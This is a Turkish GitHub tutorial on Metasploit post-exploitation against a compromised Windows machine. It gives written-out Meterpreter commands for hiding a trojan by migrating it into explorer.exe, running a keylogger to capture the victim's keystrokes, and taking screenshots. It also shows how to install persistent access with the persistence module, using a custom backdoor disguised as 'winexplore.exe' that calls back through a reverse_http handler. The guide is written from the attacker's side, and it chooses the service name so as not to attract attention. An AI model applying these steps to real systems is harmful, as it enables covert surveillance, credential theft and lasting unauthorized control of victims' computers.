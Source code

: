 
![resim](https://user-images.githubusercontent.com/18248422/175042903-d4c38166-dd6d-4ce5-ae28-71904fc1ad94.png)

## Bağlantı (hack) sonrası yapılacaklar

### Migrate (işlem göçü)

  migrate bizim backdoor olarak oluşturduğumuz ve halihazırda çalışan trojanımızı, çalışan başka bir exe içine gömerek trojanımızın gizlenmesini sağlayan bir yöntemdir. Şimdi sızmış olduğumuz bir windows cihazda “ps” komutu ile çalışan programladı listeleyelim;

![resim](https://user-images.githubusercontent.com/18248422/175042942-7016745a-5a74-40e3-b23b-904ac2cb9f8e.png)

 Burada da görüldüğü gibi “PID” yani ilk sütunda olan process id kısmını kullanarak kendi trojanımızı migrate edebileceğiz. 
 Şimdi windows da dosya sistemini görüntülemeye yarayan “explorer.exe” nin PID sini kullanarak migrate yapacağız.

![resim](https://user-images.githubusercontent.com/18248422/175042998-9d824e4a-97d5-47af-8a4a-b456daac5eae.png)

burada ki “2824” “explorer.exe” nin PID si idi ve “migrate 2824” yazıp trojanımızı migrate ettik.

NOT: “migrate” işlemi hacklenen bir cihazda ilk yapılması gerekilen işlemlerden biridir!

### Meterpreter ile Keylogger(keystroke) çalıştırmak

Keylogger yani klavyeden girilen değerleri dinlemek için aşağıda ki komutu kullanarak başlatabiliriz;

![resim](https://user-images.githubusercontent.com/18248422/175043272-49faf1ae-436b-4e85-8fa5-031789ebe777.png)
"keyscan_start" komutu ile keystroke sniffer yani klayvede basılan tuşları takip etmeye başladık. Eğer bu komuttan sonra basılan bütün klayve tuşlarını yani yazılanları görmek istiyorsak aşağıda ki komutu kullanıyoruz;

![resim](https://user-images.githubusercontent.com/18248422/175043298-8c3a2def-1649-4512-a358-9ca72e1bc02c.png)

"keyscan_start" komutu ile başlattıktan sonra hacklenen makinede basılan tüm klavye tuşlarını görmek için resimde de gördüğümüz üzere  “keyscan_dump” yazmamız yeterli.

### Screenshot almak

"screenshot" komutunu yazmamız yeterli.

### Hacklenen Cihazda Kalıcı Hale Gelmek

 Öncelikle hacklediğimiz cihazda açmış olduğumuz session menüsünden bir önceki menüye  “background” komutu ile dönüyoruz.  Geri dönmemizin nedeni payload değiştirecek olmamız, çünkü farklı bir payload kullanacağız.
![resim](https://user-images.githubusercontent.com/18248422/175043511-61ebdfb5-dff8-4650-aad3-a1b1f1920b9e.png)

  Yukarıda da görüldüğü gibi “use exploit/windows/local/persistence” persistence yani türkçe manası ile süreklilik, kalıcılık payload'ını kullanmaya ("use") başlıyoruz. Bu payload bizim trojanımızı bu cihaza service olarak enjekte etmemize yarıyor. Bu sayede hacklenen cihaz bilgisayarını her açıp internete bağlandığında cihaza yeniden erişim sağlayabileceğiz, hatta trojan bulunan exe dosyasını silse bile! Çünkü trojanımızı pc her açıldığında çalışacak şekilde bir service içine enjekte ediyoruz. Böylelikle bu cihazda kalıcı hale gelmiş oluyoruz. 

 Şimdi persistence payload'ının options kısmında bazı değişiklikler yapalım;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043557-203c8969-609c-4195-af9f-d5bc65482135.png)
 
  "set EXE_NAME winexplore.exe" diyerek “winexplore.exe” adında bir service içine trojanımızı enjekte edeceğimizi ayarladık. Burada ki  “winexplore.exe” adını biz verdik, yani herhangi bir isim verebiliriz. Dikkat çekmesin diye  “winexplore.exe” dedik.
 
 Ardından hangi session için bunu yapmak istediğimizi seçiyoruz (o an hangi session da karşı makinaya bağlıysak onun ID'si);
 ![resim](https://user-images.githubusercontent.com/18248422/175043621-41c698e2-bced-43ec-b515-98d27296ac69.png)

 "set SESSION 1" diyerek session kısmını da belirledik.
 
 Eğer istersek custom olarak kendi cihazımızda bulunan kendi oluşturduğumuz trojanı kullanmak istiyorsak bir değişiklik yapmamız gerekir. Bunun için “show advanced” komutu ile aşağıda ki kısmı açıyoruz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043651-f60b8d43-9b08-4a99-9cfc-5b29f1bb3dc9.png)

 ardından yukarıda ki resimde görüldüğü gibi “set EXE::Custom” komutunu kullanıp arından /var/www/html/bacdoors.... (kendi cihazımızda trojanı nereye koyduysak .exe uzantısına kadar yazıyoruz) şeklinde trojanın yerini belirtiyoruz.
 NOT: Bunu yapmakta ki amacımız; eğer bunu yapmazsak sistem kendi oluşturduğu bir default trojan ekler, bizim trojanımızı değil.
 
 Ayarı kontrol etmek için tekrar “show advanced” diyoruz ve;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043692-37626624-1781-432f-a1ff-dd17af77085b.png)

 
 EXE::Custom kısmında gördüğümüz gibi ayarımız geçerli olmuş.
 
 Artık enjekte etmeye hazırız ve “exploit” komutu ile enjekte etmeyi başlatabiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043740-ce51fa99-ac9f-421f-89ad-55e09b92ed2b.png)

 "exploit" komutu sonrası bu şekilde bir ekran gelirse başarılı olmuş demektir. 
 
 
 Bundan sonra artık hangi yöntem ile hacklediysek eriştiysek ona dönebiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043758-8dd47976-c22b-4a92-9fc0-eb5b98fc4b8b.png)

  burda “reverse_http” kullanılmış o yüzden “use exploit/multi/handler” diyip “set PAYLOAD windows/meterpreter/reverse_http” diyip hacklediğimiz payload'a geri dönüyoruz. 
 
  Artık bundan sonra nasılsa önceden exploit ettik üstüne birde persistence kullanarak cihazda kalıcı hale geldiğimize göre, cihaz kapanıp açılsa bile açıldıktan ve internete bağlandıktan 10 saniye sonra (default olarak 10 saniye belirlenmişti istersek onu da değiştirebiliyoruz) reverse_http yöntemi ile oluşturduğumuz trojanımızı, ismini kendimiz belirlediğimiz ve içine kendi trojanımızı enjekte ettiğimiz ("persistence" payloadı ile) bir service (service adına "winexplore.exe" demiştik) sayesinde bizim cihazımıza bağlanacak. 
  
  kaynak: https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/
  
  ![resim](https://user-images.githubusercontent.com/18248422/175043850-63f30f8e-9c7d-49c6-8f30-cbfc50c4bb66.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043879-23c6b837-c028-4634-8904-e2a9c67a0492.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043903-0fd8a40c-82a8-4511-9565-cca5396bfb42.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043922-eb075f16-ad88-462e-af7c-12fb41180ae5.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043959-4fc27dcc-7210-403a-9519-dbdd117b98ca.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043986-c0f65737-8802-4695-807c-b49e2290678e.png)

## creted by @[ahmetkara](https://github.com/ahmetQara)


  
  
  
  
  
  
  
  
  
 
